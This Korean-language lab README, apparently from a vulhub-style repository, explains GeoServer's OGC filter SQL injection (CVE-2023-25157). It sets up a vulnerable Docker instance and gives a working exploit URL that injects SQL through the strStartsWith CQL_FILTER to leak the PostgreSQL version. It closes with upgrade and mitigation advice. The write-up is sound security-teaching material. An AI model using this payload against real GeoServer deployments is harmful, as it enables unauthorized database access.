 # GeoServer OGC Filter SQL Injection (CVE-2023-25157)

> 화이트햇 스쿨 3기(35반) -  [손예은](https://github.com/ye-nni/)
> </br>
> https://github.com/ye-nni/kr-vulhub/tree/main/geoserver/CVE-2023-25157 , https://github.com/gunh0/kr-vulhub/pull/300
</br>

### 요약
- GeoServer는 Java로 작성된 오픈 소스 소프트웨어 서버로, 지리공간 데이터를 보고, 편집하고, 공유할 수 있는 기능을 제공합니다.
- GeoServer는 지리정보시스템(GIS) 데이터베이스, 웹 기반 데이터, 개인 데이터세트 등 다양한 소스의 지리공간 데이터를 배포하는 유연하고 효율적인 솔루션으로 설계되었습니다.
- 2.22.1 및 2.21.4 이전 버전에서는 OGC(Open Geospatial Consortium) 표준에서 정의한 필터 및 함수 표현식에서 SQL Injection 문제가 발견되었습니다.
- SQL Injection 취약점이 발생하는 경우는 구체적으로 `PropertyIsLike` 필터를 문자열 필드가 있는 모든 JDBCDataStore와 함께 사용하는 경우, `strEndsWith` 함수를  "encode functions"이 활성화 된 PostGIS DataStore와 함께 사용하는 경우 등이 있습니다.
- 이번 테스트에서는 `strStartsWith` 함수를 "encode functions"이 활성화된 PostGIS DataStore와 함께 사용할 경우를 테스트 합니다.

References:
- <https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158>
- <https://github.com/advisories/GHSA-7g5f-wrx8-5ccf>
</br>

### 환경 구성 및 실행
다음 명령어로 테스트 환경에서 GeoServer instance 2.22.1을 실행합니다:
```
docker compose up -d
```
서버가 시작되면 `http://your-ip:8080/geoserver`에서 기본 페이지를 볼 수 있습니다.

</br>

### 테스트
취약점을 익스플로잇하기 전에 먼저 PostGIS DataStore가 포함된 워크스페이스를 찾아야 합니다. Vulhub의 GeoServer 인스턴스에는 이미 PostGIS DataStore가 있습니다:
- Workspace name: `vulhub`
- Data store name: `pg`
- Feature type (table) name: `example`
- One of attribute from feature type: `name`

이를 이용한 아래 URL을 통해 서버를 익스플로잇 할 수 있습니다:
```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```
</br>

### 결과
![](result1.JPG) 
![](result2.JPG)
![](result3.png)

위 사진을 통해 PostgreSQL 버전은 SQL Injection을 통해 GeoServer에서 검색(retrieve)된 것을 알 수 있습니다. 
이러한 취약점을 막기 위해 GeoSever의 버전을 업그레이드하는 것이 권장되며, PostGIS DataStore에서 "encode functions"을 비활성화하여 일시적으로 완화할 수 있습니다.
